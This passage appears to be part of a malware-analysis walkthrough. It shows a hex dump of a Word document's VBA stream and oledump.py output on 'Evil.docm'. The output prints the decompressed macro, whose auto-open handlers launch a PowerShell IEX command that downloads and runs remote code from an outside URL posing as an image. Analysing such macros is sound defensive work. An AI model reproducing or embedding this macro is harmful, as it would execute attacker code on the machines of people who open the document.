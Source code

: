 ```
00000170: FF FF FF FF FF FF FF FF  FF FF FF FF FF FF 28 00  ..............(.
00000180: 00 00 02 00 53 22 FF FF  FF FF 00 00 01 00 53 10  ....S"........S.
00000190: FF FF FF FF 00 00 01 00  53 22 FF FF FF FF 00 00  ........S"......
000001A0: 00 00 02 3C FF FF FF FF  00 00 FF FF 01 01 00 00  ...<............
000001B0: 00 00 01 00 28 00 31 00  4E 00 6F 00 72 00 6D 00  ....(.1.N.o.r.m.
000001C0: 61 00 6C 00 2E 00 54 00  68 00 69 00 73 00 44 00  a.l...T.h.i.s.D.
000001D0: 6F 00 63 00 75 00 6D 00  65 00 6E 00 74 00 08 00  o.c.u.m.e.n.t...
000001E0: 00 00 00 00 FF FF FF FF  01 01 48 00 00 00 02 80  ..........H....�
000001F0: FE FF FF FF FF FF 20 00  00 00 FF FF FF FF 30 00  ...... .......0.
00000200: 00 00 02 01 FF FF 00 00  00 00 00 00 00 00 FF FF  ................
00000210: FF FF FF FF FF FF 00 00  72 64 09 30 78 37 1D 00  ........rd.0x7..
00000220: 00 00 25 00 00 00 FF FF  FF FF 40 00 00 00 FF FF  ..%.......@.....
00000230: FF FF 38 00 00 00 00 00  00 00 00 00 01 00 00 00  ..8.............
00000240: 00 00 00 00 00 00 FF FF  FF FF FF FF FF FF FF FF  ................
00000250: FF FF 00 00 00 00 FF FF  FF FF FF FF FF FF FF FF  ................
00000260: FF FF FF FF FF FF FF FF  FF FF 00 00 00 00 FF FF  ................
00000270: FF FF FF FF FF FF FF FF  FF FF FF FF FF FF FF FF  ................
00000280: FF FF 00 00 00 00 00 00  00 00 FF FF 00 00 FF FF  ................
00000290: FF FF FF FF 00 00 00 00  FF FF FF FF FF FF FF FF  ................
000002A0: FF FF FF FF FF FF FF FF  FF FF FF FF FF FF FF FF  ................
000002B0: 00 00 01 00 FF FF FF FF  00 00 00 00 00 00 DF 00  ................
000002C0: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
000002D0: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
000002E0: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
000002F0: 00 00 00 00 00 00 00 00  00 00 00 FE CA 01 00 00  ................
00000300: 00 FF FF FF FF 01 01 08  00 00 00 FF FF FF FF 78  ...............x
00000310: 00 00 00 FF FF FF FF 01  01 08 00 00 00 FF FF FF  ................
00000320: FF 78 00 00 00 FF FF FF  FF FF FF FF FF FF FF FF  .x..............
00000330: FF FF FF FF FF FF FF FF  FF FF FF FF FF FF FF FF  ................
00000340: FF FF FF FF FF FF FF FF  FF FF FF FF FF FF FF FF  ................
00000350: FF FF FF FF FF FF FF FF  FF FF FF FF FF FF FF FF  ................
00000360: FF FF FF FF FF FF FF FF  FF FF FF FF FF FF FF FF  ................
00000370: FF FF FF FF FF FF FF FF  FF FF FF FF FF FF FF FF  ................
00000380: FF FF FF FF FF FF FF FF  FF FF FF FF FF FF FF FF  ................
00000390: FF FF FF FF FF FF FF FF  FF FF FF FF FF FF FF FF  ................
000003A0: FF FF FF FF FF FF FF FF  FF 00 00 01 98 B0 00 41  ...............A
000003B0: 74 74 72 69 62 75 74 00  65 20 56 42 5F 4E 61 6D  ttribut.e VB_Nam
000003C0: 00 65 20 3D 20 22 54 68  69 00 73 44 6F 63 75 6D  .e = "Thi.sDocum
000003D0: 65 6E 88 74 22 0A 0A 88  42 61 73 02 88 00 31 4E  en.t"...Bas...1N
000003E0: 6F 72 6D 61 6C 2E 81 18  A8 47 6C 6F 62 61 6C 01  ormal....Global.
000003F0: A6 10 53 70 61 63 01 6A  46 61 6C 04 73 65 0B 9E  ..Spac.jFal.se..
00000400: 43 72 65 61 74 08 61 62  6C 14 1E 50 72 65 64 90  Creat.abl..Pred.
00000410: 65 63 6C 61 00 06 49 64  00 9A 08 54 72 75 0C 40  ecla..Id...Tru.@
00000420: 45 78 70 6F 04 73 65 13  1B 54 65 6D 70 6C 00 61  Expo.se..Templ.a
00000430: 74 65 44 65 72 69 76 01  14 23 43 75 73 74 6F 6D  teDeriv..#Custom
00000440: 69 06 7A 84 41 02 30                              i.z.A.0
```
_Note: Now we want to decompress the VBA code._
```
$ oledump.py -s 3 -v Evil.docm 
Attribute VB_Name = "NewMacros"
Sub Auto_Open()
    Dim exec As String
    exec = "powershell.exe ""IEX ((new-object net.webclient).downloadstring('https://orig03.deviantart.net/126f/f/2009/156/8/5/owl_bear_by_benwootten.jpg'))"""
    Shell (exec)
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub
```